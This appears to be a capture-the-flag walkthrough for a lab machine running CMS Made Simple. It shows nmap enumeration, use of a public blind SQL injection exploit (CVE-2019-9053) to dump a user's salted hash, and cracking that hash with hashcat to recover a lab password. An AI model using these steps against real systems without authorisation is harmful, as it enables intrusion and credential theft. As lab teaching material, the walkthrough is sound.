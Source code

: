 # Writeup

# Enumeration
---
### Nmap
#

Run a tcp syn nmap scan against the target, checking versions and running default scripts on all ports. 
```bash
# Nmap 7.94SVN scan initiated Wed Dec 11 06:50:13 2024 as: nmap -v -sS -sV -sC -T4 -p- -oA nmap-full-tcp-writeup 10.129.229.158
Nmap scan report for 10.129.229.158
Host is up (0.035s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 11 06:52:00 2024 -- 1 IP address (1 host up) scanned in 107.09 seconds

```

### HTTP
#

Retro style website on port 80 talking about DDoS protection

![image](https://github.com/user-attachments/assets/c86b97da-7c2b-4045-93a4-6e59e4965a39)

Visiting key pages such as robots.txt gave the following directory in the Disallow list: /writeup/

![image](https://github.com/user-attachments/assets/8ac080cd-bab5-417d-b1ad-0dae52a77827)

The source code shows this is running [CMS Made Simple](https://www.cmsmadesimple.org/), an open source Content Management System, the copyright gives us a clue this version is from 2019. 

```html
<base href="http://10.129.229.158/writeup/" />
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
```

Browsing Google for vulnerabilities in CMS made simple shows [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053) from 2019. This is a blind SQL vulnerability with a [public exploit](https://www.exploit-db.com/exploits/46635).  

Download the script and make the very basic alterations to get it working. Running the script finds the following information:

```bash
[+] Salt for password found: 1
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

The password looks like an MD5 hash which hashid all but confirms by returning MD2, MD5 and MD4 as the top 3 likely hash algorithms. 

```bash
hashid 62def4866937f08cc13bab43bb14e6f7

Analyzing '62def4866937f08cc13bab43bb14e6f7'
[+] MD2 
[+] MD5 
[+] MD4 
```

Running the hash through hachcat crack it and gives us the users password

```bash
hash
hashcat -a 0 -m 20 hash /usr/share/wordlists/rockyou.txt

<--snip-->

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9

<--snip-->
```

Password : raykayjay9

